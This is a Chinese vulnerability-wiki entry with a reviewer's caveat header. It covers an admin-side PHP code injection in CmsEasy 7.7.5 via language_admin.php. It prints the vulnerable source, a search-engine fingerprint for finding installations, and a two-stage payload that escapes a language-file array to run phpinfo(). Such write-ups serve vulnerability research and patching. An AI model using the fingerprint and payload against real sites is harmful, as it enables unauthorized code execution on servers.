





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：7.7.5_20210919; admin language add; writable included language file; two-stage replacement

- **适用与权限边界（1）**：Source and state-transition logic substantial, admin correctly stated。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（2）**：Three-column values are not explicitly mapped to key/cnnote/val; final generated PHP only screenshot。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（3）**：Description overstates arbitrary file write without demonstrating arbitrary path; actual shown impact PHP code injection into language file。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（4）**：Primary advisory/fix absent。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# CmsEasy language_admin.php 后台命令执行漏洞

## 漏洞描述

CmsEasy 后台存在命令执行漏洞，通过文件 language_admin.php 对部分文件进行写入操作，导致任意文件写入

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现


存在漏洞的文件为 `lib/admin/language_admin.php`



```
function add_action() {
        $lang_choice='system.php';
        if (isset($_GET['lang_choice'])){
            $lang_choice=$_GET['lang_choice'];
        }
        if (front::post('submit')) {
            $langid=front::get('id');
            $lang=new lang();
            $langdata = $lang->getrows('id='.$langid, 1);
            if (is_array($langdata)){
                $langurlname=$langdata[0]['langurlname'];
            }else{
                front::alert(lang_admin('language_pack').lang_admin('nonentity'));
            }
            $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $content=file_get_contents($path);
            $tipscontent=file_get_contents($tipspath);
            $replace="'".front::$post['key']."'=>'".front::$post['val']."',";
            $tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
            $content=str_replace(');',"\n".$replace.');',$content);
            file_put_contents($path,$content);
            $pos=strpos($tipscontent,$tipsreplace);
            if ($langurlname != 'cn'&&$pos === false) {
                $tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
                file_put_contents($tipspath,$tipscontent);
            }
            if ($_GET['site'] != 'default') {
                $ftp=new nobftp();
                $ftpconfig=config::get('website');
                $ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
                $ftperror=$ftp->returnerror();
                if ($ftperror) {
                    exit($ftperror);
                }
                else {
                    $ftp->nobchdir($ftpconfig['ftppath']);
                    $ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
                }
            }
            event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
            //
            $shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
            $shepi=$shepi.'&lang_choice='.$lang_choice;
            $shepi=$shepi.'");</script>';
            echo $shepi;
            //exit;
            //front::refresh(url('language/edit',true));
        }
        $this->view->lang_choice=$lang_choice;
    }
```

访问这个页面



其中参数有三个，分别为 `key , cnnote, val`


传入参数后,查看 `lang/cn/system_custom.php` 文件中

```
<?php
/*
 *中文语言包
 */

return

array(


'2'=>'3',);
?>
```

由于没有对传入的参数进行过滤，通过写入特殊的参数就可以逃逸出数组造成命令执行

分别传入两次参数

```
test1  test2  test3);
```

写入后文件内容

```
<?php
/*
 *中文语言包
 */

return

array(

'test2'=>'test3);',);
?>
```

再传入一次参数

```
test4  ,test5, 	,phpinfo());/*
```



写入后文件内容



访问文件 `/lang/cn/system_custom.php`



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
